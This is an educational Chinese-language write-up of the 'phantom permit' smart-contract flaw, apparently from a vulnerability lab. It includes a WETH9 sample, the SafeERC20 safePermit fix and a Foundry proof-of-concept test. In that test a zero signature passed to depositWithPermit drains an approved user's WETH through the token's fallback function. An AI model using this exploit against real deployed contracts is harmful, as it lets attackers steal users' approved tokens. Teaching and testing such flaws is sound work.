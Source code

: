 # 幻像函数-允许函数

**名称：** 幻象功能-允许功能

**描述：** 幻像函数：接受所有未实际未定义的函数的任何调用，而不进行恢复。 key: 1.不支持EIP-2612许可的Token。 2.Token具有后备功能。 例如：WETH。

**解决措施：**

使用 SafeERC20 的 safePermit - 恢复无效签名。 https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol#LL89C14-L89C24

**参考：**

https://twitter.com/1nf0s3cpt/status/1671347058568237057

https://media.dedaub.com/phantom-functions-and-the-billion-dollar-no-op-c56f062ae49f

**WETH9 合约样例:**

```jsx
contract WETH9 {
    string public name = "Wrapped Ether";
    string public symbol = "WETH";
    uint8 public decimals = 18;

    event Approval(address indexed src, address indexed guy, uint wad);
    event Transfer(address indexed src, address indexed dst, uint wad);
    event Deposit(address indexed dst, uint wad);
    event Withdrawal(address indexed src, uint wad);

    mapping(address => uint) public balanceOf;
    mapping(address => mapping(address => uint)) public allowance;

    fallback() external payable {
        deposit();
    }

    receive() external payable {}

    function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }
}
```

***\*测试方法:\****

仿真测试 --contracts src/test/**phantom-permit.sol** -vvvv

```jsx
// Function to test phantom permit vulnerability
    function testVulnPhantomPermit() public {
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Transfers 10 Ether to Alice's account
        vm.deal(address(alice), 10 ether);

        // Initiates a "prank" on Alice's account in the virtual machine
        // It's unclear what this prank does without further context
        vm.startPrank(alice);
        
        // Deposits 10 Ether into WETH9Contract from the current contract
        WETH9Contract.deposit{value: 10 ether}();
        
        // Approves the Vulnerable Permit Contract to spend the maximum possible amount of tokens (WETH in this case) on behalf of this contract
        WETH9Contract.approve(address(VulnPermitContract), type(uint256).max);
        
        // Stops the prank on Alice's account
        vm.stopPrank();
        
        // Logs the balance of this contract in the WETH9Contract
        console.log(
            "start WETH balanceOf this",
            WETH9Contract.balanceOf(address(this))
        );

        // Makes a deposit in the Vulnerable Permit Contract on behalf of Alice using a permit
        // The parameters for v, r, s (27, 0x0, 0x0 here) are part of the ECDSA signature scheme for the permit
        VulnPermitContract.depositWithPermit(
            address(alice),
            1000,
            27,
            0x0,
            0x0
        );
        
        // Gets the balance of the Vulnerable Permit Contract in WETH and logs it
        uint wbal = WETH9Contract.balanceOf(address(VulnPermitContract));
        console.log("WETH balanceOf VulnPermitContract", wbal);

        // Withdraws 1000 tokens from the Vulnerable Permit Contract
        VulnPermitContract.withdraw(1000);

        // Gets the balance of this contract in WETH after the withdrawal and logs it
        wbal = WETH9Contract.balanceOf(address(this));
        console.log("WETH9Contract balanceOf this", wbal);
    }
```

**红色框：通过幻像函数排干池中的水。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fccbf77e6-c6ef-4cdd-8065-60cca1e2c4c1%2FUntitled.png?table=block&id=ce845a77-2d19-4e97-9124-e3fc0e8a2525&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)